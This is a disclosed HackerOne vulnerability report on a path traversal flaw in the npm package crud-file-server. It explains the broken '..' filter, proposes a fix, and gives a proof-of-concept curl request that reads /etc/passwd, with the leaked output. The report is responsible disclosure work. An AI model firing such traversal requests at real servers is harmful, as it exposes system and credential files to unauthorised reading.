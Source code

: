 # [crud-file-server] Path Traversal allows to read arbitrary file from the server

## Report Details
- **Report ID**: 310690
- **URL**: https://hackerone.com/reports/310690
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-01-31T00:14:17.515Z
- **Disclosed**: 2018-04-03T23:04:07.517Z

## Reporter
- **Username**: bl4de
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
Hi Guys,

There is Path Traversal vulnerability in crud-file-server module, which allows to read arbitrary file from the remote server.

## Module

**crud-file-server**

This package exposes a directory and its children to create, read, update, and delete operations over http.

https://www.npmjs.com/package/crud-file-server

version: 0.7.0

Stats
0 downloads in the last day
26 downloads in the last week
220 downloads in the last month

~2500 estimated downloads per year


## Description

This vulnerability is caused by simple mistake in function which should block Path Traversal attempts:


```javascript
// ./node_modules/crud-file-server/crud-file-server.js, line 4:
var cleanUrl = function(url) { 
	url = decodeURIComponent(url);
	while(url.indexOf('..').length > 0) { url = url.replace('..', ''); }
	return url;
};
```

As you can see, condition which checks existence of ```..``` is wrong, because ```url.indexOf()``` returns index of found string or -1 if nothing matches; and has no ```length``` property. Because of that, this condition is always false, thus ```url = url.replace('..', '');``` is never executed.

The correct condition should be:

```javascript
while(url.indexOf('..') > 0) { url = url.replace('..', ''); }
```

I've verified that this is enough to fix this vulnerability.


## Steps To Reproduce:

- install ```crud-file-server``` module

```
$ npm install crud-file-server
```

- run server from command line:

```
$ ./node_modules/crud-file-server/bin/crud-file-server -f ./ -p 8080
```

- use following command to confirm the vulnerability (pelase adjust number of ../ to reflect your system):

```
$ curl -v --path-as-is http://127.0.0.1:8080/../../../../etc/passwd
```

Result:

```
$ curl -v --path-as-is http://127.0.0.1:8080/../../../../etc/passwd
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to 127.0.0.1 (127.0.0.1) port 8080 (#0)
> GET /../../../../etc/passwd HTTP/1.1
> Host: 127.0.0.1:8080
> User-Agent: curl/7.54.0
> Accept: */*
>
< HTTP/1.1 200 OK
< Content-Type: application/octet-stream
< Content-Length: 6774
< Date: Wed, 31 Jan 2018 00:01:31 GMT
< Connection: keep-alive
<
##
# User Database
#
# Note that this file is consulted directly only when the system is running
# in single-user mode.  At other times this information is provided by
# Open Directory.
#
# See the opendirectoryd(8) man page for additional information about
# Open Directory.
##
nobody:*:-2:-2:Unprivileged User:/var/empty:/usr/bin/false
root:*:0:0:System Administrator:/var/root:/bin/sh
daemon:*:1:1:System Services:/var/root:/usr/bin/false
_uucp:*:4:4:Unix to Unix Copy Protocol:/var/spool/uucp:/usr/sbin/uucico
_taskgated:*:13:13:Task Gate Daemon:/var/empty:/usr/bin/false
(...)
```

After the patch described in **Description** is applied, the result of ```curl``` command is as expected:

```
$ curl -v --path-as-is http://127.0.0.1:8080/../../../../etc/passwd
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to 127.0.0.1 (127.0.0.1) port 8080 (#0)
> GET /../../../../etc/passwd HTTP/1.1
> Host: 127.0.0.1:8080
> User-Agent: curl/7.54.0
> Accept: */*
>
< HTTP/1.1 500 Internal Server Error
< Content-Type: application/json
< Date: Wed, 31 Jan 2018 00:01:49 GMT
< Connection: keep-alive
< Content-Length: 71
<
* Connection #0 to host 127.0.0.1 left intact
{"errno":-2,"code":"ENOENT","syscall":"stat","path":"./////etc/passwd"}
```



## Supporting Material/References:

Configuration:

- macOS 10.13.3
- Chromium 66.0.3331.0 (Developer Build) (64-bit) 
- Node.js version: v8.9.3
- npm version: 5.5.1
- curl 7.54.0


Please feel free to invite module maintainer to this report. I haven't contacted maintainer as I want to keep the process of fixing and disclosing bug consistent through HackerOne platform only.

I hope my report will help to keep Node.js ecosystem and its users safe in the future.

Regards,

Rafal 'bl4de' Janicki

## Impact

This vulnerability allows to read content of any file on the server.

## Attachments
No attachments

